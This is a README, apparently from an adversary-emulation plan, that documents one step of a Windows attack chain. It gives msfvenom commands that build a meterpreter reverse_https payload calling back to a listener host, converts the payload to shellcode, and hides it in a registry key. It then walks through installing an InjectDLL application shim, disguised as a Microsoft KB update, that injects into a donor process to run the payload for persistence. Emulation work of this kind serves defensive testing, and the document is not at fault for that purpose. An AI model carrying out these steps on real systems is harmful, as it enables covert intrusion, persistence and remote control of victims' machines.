

# Step 19 File Descriptions, Role in Emulation, and Execution Flow

### bin329.tmp

`bin329.tmp` is a 32bit [sRDI converted meterpreter dll](https://github.com/monoxgas/sRDI).
  -  `msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_https LHOST=192.168.0.4 LPORT=53 -f dll -o payload.dll`
  - `git clone https://github.com/monoxgas/sRDI`
  - `python3 sRDI/Python/ConvertToShellcode.py payload.dll`
  - `mv payload.bin bin329.tmp`

  From `sudo msfconsole`
   - `handler -p windows/meterpreter/reverse_https -H 192.168.0.4 -P 53`

This payload will be stored in the registry at `HKLM\SOFTWARE\Microsoft\DRM\4` as a binary value by [prep_and_install_shim.ps1](prep_and_install_shim.ps1)

### prep_and_install_shim.ps1

Launch from an interactive administrator PowerShell, [prep_and_install_shim.ps1](prep_and_install_shim.ps1) stores bin329.tmp into the registry, copies over files to `C:\Windows\Temp`, and installs the applicatin shim via `sdbinst.exe`. 

### dll329.dll

`dll329.dll` is a custom statically compiled dll that is injected into the `AccountingIQ.exe` application via the InjectDLL application shim when the application is launched. Its purpose is to spawn a donor process(SyncHost.exe), inject into it, read the payload registry key, and execute the payload.

[Code for this dll can be found in injectDLL-Shim](./InjectDLL-Shim)

Simply click the `.sln` file to open with Visual Studio Code 2019. Then compile.

### sdbE376.tmp

`sdbE376.tmp` is the application shim database file. It contains the information on which to process to appy what shim to with which parameters. For this technique we are targeting `AccountingIQ.exe` with an `InjectDLL` shim with a parameter of `C:\Windows\Temp\dll329.tmp`.

#### Generating an sdb file from scratch

Download the [Windows Assessment and Deployment Kit for Windows 10](https://support.microsoft.com/en-us/help/4027209/oems-adk-download-for-windows-10). You only need to select the `Application Compatibility Toolkit` during installation. 

From an Administrator PowerShell/CMD shell 
 - `cd "C:\Program Files (x86)\Windows Kits\10\Assessment and Deployment Kit\Application Compatibility Toolkit\Compatibility Administrator (32-bit)"`
 - `.\Compatadmin.exe /x`
   - `/x` is an undocumented argument that will enable more shims

- Click `Fix` to begin
  - `AccountingIQ` for name of program
  - `Microsoft` for name of vendor 
  - Browse to program you would like to shim (AccountingIQ.exe)

- Click `Next` to skip the Compatability Mode section

- Select the `InjectDLL` shim by checking the box to its left
  - Click `Parameters`
  - Under `Command line` put the path to the DLL to inject - `C:\Windows\Temp\dll329.dll`
  - `OK`
  - `Next`

- Unselect all check boxes so that the shim will fire on any application that shares the name `AccountingIQ.exe`

- `Finish`

- Save Database as `Microsoft KB2832077` - Following CTI

- Save the SDB file to `C:\Windows\Temp\sdbE376.sdb` - `sdbE376.tmp`

- Open PowerShell
  - `mv C:\Windows\Temp\sdbE376.sdb C:\Windows\Temp\sdbE376.tmp`
  - `sdbinst.exe  C:\Windows\Temp\sdbE376.tmp`

The shim is now installed

## Execution Flow

1) Encoded PowerShell 
    - Drops `sdbE376.tmp` and `dll329.dll` to `C:\Windows\Temp`
    - Sets Reg key with binary data of meterpreter payload to `HKLM:\Software\Microsoft\DRM\4`
    - Invokes `sdbinst.exe` on `sdbE376.tmp` - Installs shim

2) Box is rebooted

3) Login over RDP onto system

4) Shim fires on launch of `AccountingIQ.exe` at login
    - `dll329.dll` is injected into `AccountingIQ.exe` via InjectDLL shim
    - `dll329.dll` spawns `C:\Windows\SysWOW64\SyncHost.exe` as a donor process
    - `dll329.dll` injects and maps a function into `SyncHost.exe`
    - Function runing in `SyncHost.exe` now reads payload from `HKLM:\Software\Microsoft\DRM\4` and executes it

5) User level meterpreter session is spawned

### Process Tree of Execution

## Uninstallation

Removing the shim can be done in two ways:

1) `sdbinst.exe -u sdbE376.tmp`

2) Open `Control Panel\Programs\Programs and Features` and look for the `Microsoft KB2832077` database name and uninstall it.
